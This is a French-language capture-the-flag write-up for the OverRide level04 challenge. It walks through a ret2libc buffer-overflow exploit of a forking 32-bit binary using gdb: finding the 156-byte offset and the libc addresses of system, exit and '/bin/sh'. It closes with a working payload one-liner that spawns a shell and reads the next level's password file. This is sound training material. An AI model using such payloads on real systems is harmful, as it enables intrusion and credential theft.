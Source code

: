 ### level04

Dans cet exercice le programme effectue un fork et on est confronté à plusieurs mesures empechant d'executer un shellcode.
On va donc suivre le child et on cherche l'offset puis les adresse de exit, system et "bin/sh" pour faire un ret2libc.
On utilise un pattern generator pour l'overflow : https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

```bash
level04@OverRide:~$ gdb -q level04 
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 1751]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1751]
0x41326641 in ?? ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) i proc map
process 1751
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fda000     0x2000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

La valeur de eip "0x41326641" lors de l'overflow nous indique un offset de 156

adresse de system : 0xf7e6aed0
adresse d'exit : 0xf7e5eb70
adresse de la string "/bin/sh" dans le programme : 0xf7f897ec

Le principe d'un ret2libc est que lorsque le programme va appeler une fonction, on aura remplacé son adresse par celle d'une autre fonction de la libc.
Ici le programme va vouloir appeler exit mais à la place il va appeler system en lui faisant lancer un bash.

On a toutes les données nécessaires, il ne reste plus qu'à écrire la commande pour effectuer le ret2libc.

```bash
(python -c "print('A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7')"; python -c "print('cat /home/users/level05/.pass')") | ./level04
```
